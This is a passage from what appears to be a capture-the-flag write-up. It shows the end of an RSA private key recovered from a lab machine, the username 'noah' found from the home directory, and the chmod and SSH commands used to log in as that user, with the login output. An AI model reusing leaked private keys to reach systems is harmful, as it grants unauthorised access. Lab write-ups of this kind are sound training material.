 ```none
0uPb7a+Yzbj10D3U6AnDi0tRtFwnnyfRevS+KEFVXHTLPTPGjRRQ41OdAoGBANlU
kn7eFJ04BYmzcWbupXaped7QEfshGMu34/HWl0/ejKXgVkLsGgSB5v3aOlP6KqEE
vk4wAFKj1i40pEAp0ZNawD5TsDSHoAsIxRnjRM+pZ2bjku0GNzCAU82/rJSnRA+X
i7zrFYhfaKldu4fNYgHKgDBx8X/DeD0vLellpLx/AoGBANoh0CIi9J7oYqNCZEYs
QALx5jilbzUk0WLAnA/eWs9BkVFpQDTnsSPVWscQLqWk7+zwIqq0v6iN3jPGxA8K
VxGyB2tGqt6jI58oPztpabGBTCmBfh82nT2KNNHfwwmfwZjdsu9I9zvo+e3CXlBZ
vglmvw2DW6l0EwX+A+ZuSmiZAoGAb2mgtDMrRDHc/Oul3gvHfV6CYIwwO5qK+Jyr
2WWWKla/qaWo8yPQbrEddtOyBS0BP4yL9s86yyK8gPFxpocJrk3esdT7RuKkVCPJ
z2yn8QE6Rg+yWZpPHqkazSZO1eItzQR2mYG2hzPKFtE7evH6JUrnjm5LTKEreco+
8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----
```

We could also determine the username, as the `home` folder, had a subfolder named `noah`. I set the correct permissions on the private key and connected to the server using SSH.

```none
chmod 600 id_rsa
ssh -i id_rsa noah@10.129.179.80
```

Success!

```none
└─$ ssh -i id_rsa noah@10.129.179.80                                                                          255 ⨯
The authenticity of host '10.129.179.80 (10.129.179.80)' can't be established.
ECDSA key fingerprint is SHA256:GHcgekaLnxmzAeBtBN8jWgd3DME3eniUb0l+PDmejDQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.179.80' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 31 03:10:55 UTC 2021

  System load:  0.01              Processes:              188
  Usage of /:   45.9% of 7.81GB   Users logged in:        0
  Memory usage: 14%               IP address for ens160:  10.129.179.80
  Swap usage:   0%                IP address for docker0: 172.17.0.1


137 packages can be updated.
75 updates are security updates.


Last login: Wed Feb 24 09:09:34 2021 from 10.10.14.5
noah@thenotebook:~$
```
